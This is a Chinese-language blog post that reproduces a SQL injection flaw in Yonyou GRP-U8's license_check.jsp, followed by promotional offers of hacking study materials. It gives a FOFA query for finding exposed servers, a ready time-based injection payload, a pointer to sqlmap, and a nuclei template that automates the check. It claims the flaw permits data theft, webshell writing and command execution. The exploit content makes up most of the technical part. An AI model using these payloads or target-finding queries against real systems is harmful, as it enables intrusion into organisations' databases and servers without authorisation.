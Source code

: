 # 原创
：  用友 GRP-U8 存在sql注入漏洞复现

# 用友 GRP-U8 存在sql注入漏洞复现

### 0x01 漏洞介绍

##### 用友 GRP-U8 license_check.jsp 存在sql注入，攻击者可利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

##### fofa：app=”用友-GRP-U8”

### 0x02 POC:

#### /u8qx/license_check.jsp?kjnd=1’;WAITFOR%20DELAY%20’0:0:3’—

### 0x03 sqlmap 一把梭哈

### 0x04 nuclei poc

#### 命令：nuclei -t /nuclei-poc/yonyou/用友-GRP-U8+sql.yaml -u [Track 安全社区 — 掌控安全在线教育- Track 知识社区 - 掌控安全在线教育 - Powered by 掌控者](https://bbs.zkaq.cn/)

```
id: u8grp_license_check
info:
name: 用友GRP-U8 License Check漏洞
author: YourName
severity: high

requests:
- method: GET
path:
- "{{BaseURL}}/u8qx/license_check.jsp?kjnd=1';WAITFOR%20DELAY%20'0:0:3'--"
headers:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36

req-condition: true
matchers:
- type: dsl
dsl:
- 'contains(body_1, "1")'
condition: and
```

还没看够？可以关注~

## **免费领取安全学习资料包！（私聊进群一起学习，共同进步）**<img alt="" height="768" src="https://img-blog.csdnimg.cn/696e6ebf81ba4e4088ab61199b458bbe.png" width="1024"/>

渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/652226bb649c48f1ba2d2dcb2dd99994.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/8eb67d8e49b24ba3ad64b228bfc96437.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/79cd596e5b504c3497c8119a197f7dc8.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/e3cb409be92a4dd7affb2420cdf9cfda.png" width="665"/>

应急响应笔记

学习路线
